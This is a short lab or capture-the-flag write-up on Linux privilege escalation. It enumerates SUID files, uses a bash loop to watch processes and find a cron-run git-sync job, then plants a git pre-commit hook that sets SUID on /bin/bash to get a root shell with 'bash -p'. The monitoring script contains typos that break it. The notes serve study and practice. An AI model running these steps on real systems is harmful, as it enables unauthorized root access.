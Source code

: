Finding files with SUID permissions
`find / \-perm -4000 2>/dev/null`

Not an interessting service.

### Looking for scheduled commands running


by using `ps -eo command`, it's possible to list all commands running in that moment in the machine

#### Script to automatize the process

`#!/bin/bash`
`old_process = $(ps -eo command)`

`while true; do`
	`new process=$(ps -eo command)`
	`dif<(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"`
	`old_process=$new_process`
`done`

We see that there are a con process which executes a git-sync file
![[Pasted image 20240331142005.png]]

![[Pasted image 20240331142040.png]]`

This process get into /home/dev01 file and update a git commit backup
![[Pasted image 20240331143155.png]]

### Git hook exploitation
[[Git hooks]]
Creating a pre-commit hook to grant SUID permissions to bash
`echo 'chmod u+s /bin/bash' > ~/.git/hooks/pre-commit`
`chmod +x ~/.git/hooks/pre-commit`

When commit process will be executed, our pre-commit file will be executed as well.

To monitor if this works, we can use watch command to verify each 1 second if its changes:

`watch -n 1 ls -l /bin/bash`

![[Pasted image 20240331145918.png]]

Now we can cast `bash -p`